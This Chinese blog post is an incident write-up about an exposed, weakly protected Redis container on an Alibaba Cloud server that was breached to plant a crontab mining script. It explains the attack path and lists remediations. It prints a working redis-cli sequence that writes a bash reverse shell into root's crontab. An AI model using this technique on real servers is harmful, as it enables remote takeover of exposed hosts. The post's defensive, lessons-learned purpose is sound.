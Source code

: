 title: Redis配置不当致使Root被提权漏洞
author: 几时西风
tags:
  - 安全
  - redis
categories:
  - 安全
date: 2023-03-18 12:57:00
---
# Redis配置不当致使Root被提权漏洞

记录一下一次补漏洞的经历，难得有这么经典的案例



## 背景

公司和某银行之间有些合作，委托银行部署了一个专门用于收罚款的程序。公司出服务器（阿里云ECS），银行出应用，因为公司毕竟是大客户，银行也没提收钱的事情，就这么免费帮忙部署了这么个应用。

当然有人占了银行的便宜，那么有人就要被银行占便宜，谁是这个倒霉的人呢，他就是银行外包。于是这个应用的开发和部署都是银行外包搞定的，当时和外包对接的老哥提了必须基于docker部署该应用，方便以后迁移到k8s。

然后好玩的来了，对于老哥的要求，外包公司很配合。一个基于nutz框架写的java应用，打包成jar包以后，docker build&docker run。然后这应用需要redis\mysql\nginx这些基础设施，于是从网上copy了几个docker-compose文件，分别docker-compose up,暴露所有需要的端口即可。

理论上来说，这些东西全放在一个docker-compose文件内，或者共用一个docker网络，也无需向外暴露接口，当时负责对接的老哥也没仔细审核，于是就埋下了隐患。

## 问题发现

1. 2023-03-17 17:39:40 ，阿里云云安全中心发出安全告警，提示“Redis配置不当致使Root被提权漏洞”；

2. 攻击溯源如下图：
   
   ![](\blog\images\pasted-25.png)

3. 操作文件中看到：
   
   ![](\blog\images\pasted-26.png)





## 问题分析

从上面的提示来说，问题其实很明显，黑客是通过redis的提权漏洞获取到了系统的root权限然后在cron定时任务里放东西了，一般来说都是挖矿脚本之类。黑客通过redis的提权漏洞获取到的其实是docker容器内的root权限，所以设置的定时任务应当也是在docker容器内，影响范围其实控制在了容器内。

果不其然，进入redis容器内，查看定时任务，看到了被恶意写入的挖矿脚本。

```
docker exec -it redis sh
cd /var/spool/cron/
cat root
```

结果如下：

![](\blog\images\pasted-27.png)

随便百度一下，属于是老面孔了：

![](\blog\images\pasted-28.png)

## 问题解决

**最简单的处理方法当然就是销毁被黑的redis容器然后重起一个，无非就是docker-compose down和up的事情，这些恶意写入的脚本只要没有存在docker持久化的文件系统内,自然就会销毁。**

**但是，如果只是简单重启一下容器，后面再来同样的攻击咋办，因此需要找到防御薄弱造成问题的地方进行修补。**

能通过redis提权，说明攻破了redis，简单看一下redis设置，果然发现两个问题：

1. 默认端口6379，明摆着告诉黑客，我是redis,欢迎光临；
2. 打开redis.conf一看，redis弱密码，1qaz@WSX，非常经典，暴露破解密码字典里的常客；

大概能够回溯出黑客的攻击路径了：

1. 扫描服务器端口，找到redis的6379端口

2. 暴力破解尝试连接redis

3. 连接成功后，通过redis写入计划任务，具体方式应当是这样的：

   - **在数据库中插入一条数据，将计划任务的内容作为value，key值随意，**
   - **通过修改数据库的默认路径为目标主机计划任务的路径，把缓冲的数据保存在文件里，这样就可以在服务器端成功写入一个计划任务进行反弹shell,可以参照下面的命令执行**

   ```bash
   redis-cli -h 192.168.1.2 -p 6379
   set xxx "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.244.129/7777 0>&1\n\n"
   config set dir /var/spool/cron/crontabs/
   config set dbfilename root
   save
   ```

目前最低成本的修补漏洞的方法：

1.  修改默认端口
2.  修改弱密码
3. 设置防火墙安全策略

于是就这么简单处理了下然后联系外包公司修改他们应用里的配置，实际上除了上面两项，最好处理的办法是：

1. redis容器如无必要，不对外开放端口，在容器内可以用docker network通信；
2.  配合防火墙安全策略（如iptables）限制连接，指定能够访问redis服务的ip;
3. 降权：以低权限运行 Redis 服务
4. 禁止使用root权限启动redis服务

不过考虑到和外包协调的问题，还有不要对正在运行的应用的框架进行大改导致业务宕机，故先临时解决，后续再规划整改。



## 经验总结

1. 阿里云的云安全服务是个好东西，这个钱不能省；
2. 应用部署在docker容器里其实也变相增加了安全性，如果被黑，影响范围能够小一些；
3. 能不向外暴露的端口就不要向外暴露；
4. 能不用默认端口地址的就不要用；
5. 别用弱密码甚至不设密码；
6. 权限够用即可，别啥都是root权限;
7. 部署上线前要严格审核（尤其是这种不要钱的外包帮忙做的）；
8. 防火墙安全策略是个好东西，尽可能设置安全策略限制ip访问；